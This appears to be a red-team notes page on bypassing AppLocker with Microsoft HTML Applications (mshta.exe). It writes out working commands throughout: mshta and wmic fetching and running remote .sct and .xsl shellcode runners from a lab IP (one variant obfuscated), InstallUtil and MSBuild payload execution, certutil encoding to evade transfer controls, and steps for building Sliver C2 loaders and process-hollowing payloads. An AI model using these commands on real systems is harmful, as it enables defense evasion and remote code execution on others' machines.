 ```yaml
---
description: Microsoft HTLM Applications (mshta.exe)
---
```


# MSHTA

## GitHub Tool Library Reference

The following is a collection of various AppLocker bypass tools specific to Microsoft HTML Applications (mshta.exe)

Main Directory: ToolLibrary/AppLocker-CLM/HTA

***

## Sliver HTA Loaders

The following repo's include all things for Basic and Advanced (HTTPS) HTA Loaders to Sliver.&#x20;

### References&#x20;

HTTP Sliver Profile: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader\
HTTPS Sliver Profile: ToolLibrary/AppLocker-CLM/HTA/Sliver-AdvancedHTTPs-HTA-Loader

For Sliver Profile Setup, refer to [Sliver Usage](sliver-usage.md#hta-bypass-for-sliver-agent-initial-foothold)

***

## InstallUtil.hta

using `InstallUtil.exe` within the HTA file to execute in context of `uninstall()` method or more specifically the `[System.ComponentModel.RunInstaller(true)]`.&#x20;

### References

HTA Template Reference: ToolLibrary/AppLocker-CLM/HTA/installutil.hta

```bash
# utility location
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe

# Basic Execution
InstallUtil.exe /logfile= /LogToConsole=false /u payload.exe

# Use windows dev box to encode to bypass file transfer restrictions
C:\Windows\System32\certutil.exe -encode bypass.exe encoded.txt
```

This method should be paired with the AppLocker-Bypass\* .NET assemblies in the following directories

* ToolLibrary/AppLocker-CLM/installUtil/\*

***

## jscript.sct

Using mshta.exe in this example to execute and download .sct shellcode runner

### Rerferences

File Reference: ToolLibrary/AppLocker-CLM/jscript.sct

```bash
# Basic Execution of jscript
mshta.exe "javascript:GetObject('script:http://192.168.45.277/jscript.sct');close();"
# slightly offuscated Execution of Jscript
mshta.exe "javascript:a=GetObject;b='script:http://192.168.45.227/jscript.sct';a(b);close();"
```

***

## MSBuild.hta

using `msbuild.exe` within HTA file to execute in context of embedded code in xml file.&#x20;

### References

HTA Template Reference: ToolLibrary/AppLocker-CLM/HTA/msbuild.hta\
Payload: ToolLibrary/ProcessHollowing/pshollow.cs\
XOR encoder: ToolLibrary/XOR-Encoder/xorencoder.cs

```bash
# utility location (32-bit)
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
# utility location (64 bit)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe

# use XOR encoder for process hollowing payload
# Build the msfvenom payload and paste into xorencoder.cs and build/run solution
```

***

## XSL - WMIC

using `wmic` within HTA file to execute with inline arguments to to the XML Stylesheet Language (XSL) file which contains the code runner.&#x20;

### References

HTA Template Reference: ToolLibrary/AppLocker-CLM/HTA/xsl.hta\
File Reference: ToolLibrary/AppLocker-CLM/XSL/runner.xsl\
Sliver (dll) runner: ToolLibrary/Compiled/Sliver/SliverLoader-\<arch>.dll\
Payload Generator: \[DevBox] C:\Tools\DotNetToJScript\DotNet2JScript \
Sliver (jscript) runner: ToolLibrary/Compiled/Sliver/Sliver-\<arch>.js

```bash
# utility location
C:\Windows\System32\wbem\wmic.exe

# Basic execution
wmic process get /format:"http://192.168.45.227/runner.xsl"

# Create shellcode into dll; leverage DotNet2JScript and insert .js into line 10:
C:\Tools\DotNetToJScript>DotNetToJScript.exe SliverLoader-<arch>.dll --lang=Jscript --ver=v4 -o runner.js
# Copy contents of runner.js and place into runner.xsl line 10
```
